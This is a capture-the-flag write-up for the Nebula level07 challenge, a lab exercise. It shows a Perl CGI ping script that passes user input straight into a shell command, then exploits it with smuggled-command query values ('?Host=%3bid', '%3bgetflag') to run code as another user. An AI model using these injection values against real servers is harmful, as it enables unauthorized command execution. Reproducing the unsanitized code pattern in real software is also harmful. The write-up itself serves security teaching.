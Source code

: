 ## Challenge
The flag07 user was writing their very first perl program that allowed them to ping hosts to see if they were reachable from the web server.

## Solution
```perl
#!/usr/bin/perl

use CGI qw{param};

print "Content-type: text/html\n\n";

sub ping {
  $host = $_[0];

  print("<html><head><title>Ping results</title></head><body><pre>");

  @output = `ping -c 3 $host 2>&1`;
  foreach $line (@output) { print "$line"; }

  print("</pre></body></html>");
  
}

# check if Host set. if not, display normal page, etc

ping(param("Host"));
```
Very basic CGI used to ping a host, smells like `command-injection`.
```console
level07@nebula:/home/flag07$ perl index.cgi
Content-type: text/html

<html><head><title>Ping results</title></head><body><pre>Usage: ping [-LRUbdfnqrvVaAD] [-c count] [-i interval] [-w deadline]
            [-p pattern] [-s packetsize] [-t ttl] [-I interface]
            [-M pmtudisc-hint] [-m mark] [-S sndbuf]
            [-T tstamp-options] [-Q tos] [hop1 ...] destination
</pre></body></html>
```
But wait, no `setuid`?

That means we won't run as `flag07`!
```console
level07@nebula:/home/flag07$ ls -l
total 5
-rwxr-xr-x 1 root root  368 2011-11-20 21:22 index.cgi
-rw-r--r-- 1 root root 3719 2011-11-20 21:22 thttpd.conf
```
`thttpd` is a simple webserver, `thttpd.conf` is a configuration file for it.
* `port=7007`
* `dir=/home/flag07`
* `user=flag07`

Alright! let's contact it.
```console
level07@nebula:/home/flag07$ wget -qO- "http://127.0.0.1:7007/index.cgi"
<html><head><title>Ping results</title></head><body><pre>Usage: ping [-LRUbdfnqrvVaAD] [-c count] [-i interval] [-w deadline]
            [-p pattern] [-s packetsize] [-t ttl] [-I interface]
            [-M pmtudisc-hint] [-m mark] [-S sndbuf]
            [-T tstamp-options] [-Q tos] [hop1 ...] destination
</pre></body></html>
level07@nebula:/home/flag07$ wget -qO- "http://127.0.0.1:7007/index.cgi?Host=127.0.0.1"
<html><head><title>Ping results</title></head><body><pre>PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_req=1 ttl=64 time=0.006 ms
64 bytes from 127.0.0.1: icmp_req=2 ttl=64 time=0.010 ms
64 bytes from 127.0.0.1: icmp_req=3 ttl=64 time=0.010 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 1998ms
rtt min/avg/max/mdev = 0.006/0.008/0.010/0.003 ms
</pre></body></html>
```
Try injecting a command through the query parameter `Host`.

`?Host=;id` -> URL encoding -> `?Host=%3bid`
```console
level07@nebula:/home/flag07$ wget -qO- "http://192.168.157.3:7007/index.cgi?Host=%3bid"
<html><head><title>Ping results</title></head><body><pre>uid=992(flag07) gid=992(flag07) groups=992(flag07)
</pre></body></html>
level07@nebula:/home/flag07$ wget -qO- "http://192.168.157.3:7007/index.cgi?Host=%3bgetflag"
<html><head><title>Ping results</title></head><body><pre>You have successfully executed getflag on a target account
</pre></body></html>
```
## Bonus
The `O` argument's value in `wget -qO-` means `stdout`, It's a convention in linux for `-` to siginify `stdout`/`stdin`.
